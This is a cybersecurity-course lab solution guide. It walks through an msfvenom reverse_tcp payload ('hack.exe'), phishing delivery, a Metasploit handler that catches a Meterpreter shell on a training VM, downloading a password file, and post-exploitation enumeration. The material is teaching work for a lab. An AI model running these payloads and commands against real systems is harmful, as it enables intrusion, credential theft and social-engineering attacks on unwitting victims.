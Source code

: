 ## Solution Guide: Meterpreter Shells

The goal of this activity was to practice using Metasploit modules and payloads.

---

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit. 

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

   -  You might have targeted an employee with a phishing email using information obtained from their LinkedIn and Facebook profiles.

   - The targeted employee opened the email that contained your malware called `hack.exe`, which installed it on to their local hard drive.

      
3. In DVW10, verify that `hack.exe` is on the victim machine. 

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.


     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed.
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole:

         - `msfconsole`

      - Load the `exploit/multi/handler`:

         - `use exploit/multi/handler`

      - Set the payload to `windows/meterpreter/reverse_tcp`:

         - `set payload windows/meterpreter/reverse_tcp`

        ![Find 3](Images/FIND_3.png)

      - View the payload's options:

         - `show options`

      - Set `LHOST` to the IP of your Kali machine:

         - `set LHOST 192.168.0.8`
   
      - Set the `LPORT` to `4444` of your Kali machine:

         -  `set LPORT 4444`

          ![Find 4](Images/FIND_4.png)

      - Verify the option settings took effect:

         - `show options`

         ![Find 5](Images/FIND_5.png)


5. Run the exploit:

   - `exploit` or `run`

    **Note:** If you do not get a Meterpreter shell after a minute or two, go to the DVW10 machine and double-click on the `hack.exe` file to restart the listener.
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host:

      - `search -f <filename>`

      - `search -h`

      ![Find 6](Images/FIND_6.png)


7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`:

      -  `search -f *.jpg`

       ![Find 7](Images/FIND_7.png)
   - Search the remote filesystem for a file called `password`:

      - `search -f password*`

   - Exfiltrate this file from the DVW10 VM:
     
      - `download 'C:\Users\IEuser\Documents\password.txt'`

       ![Find 8](Images/FIND_8.png)

### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine:

   - `run post/windows/gather/enum_shares`

   - Results show there are not shares running on the VM. 

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM:

     -  `run post/windows/gather/checkvm`
     
     -  Results show that it is a Hyper-V VM. 

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer:

    - `net users`

     ![Shell](Images/SHELL.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
